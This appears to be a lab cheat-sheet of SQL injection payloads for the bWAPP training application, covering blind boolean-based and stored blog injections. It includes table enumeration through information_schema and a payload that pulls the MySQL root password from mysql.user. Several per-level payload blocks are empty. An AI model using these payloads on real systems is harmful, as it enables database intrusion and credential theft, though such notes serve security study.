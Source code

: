 ## 💀  SQL Injection - Blind - Boolean-Based 💀
url /sqli_4.php
```
x' OR '1'='1
```
```
x' OR (select database()='bWAPP') AND '1'='1
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection - Stored (Blog) 💀

Be sure to add a space after the -- for this one, otherwise the injection will not work

```
asdf',(SELECT database()  ))--
```

To begin enumerating tables:

```
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 0,1  ))--
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 1,1  ))--
```

```
asdf',(select password from mysql.user where user='root' ))--
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high
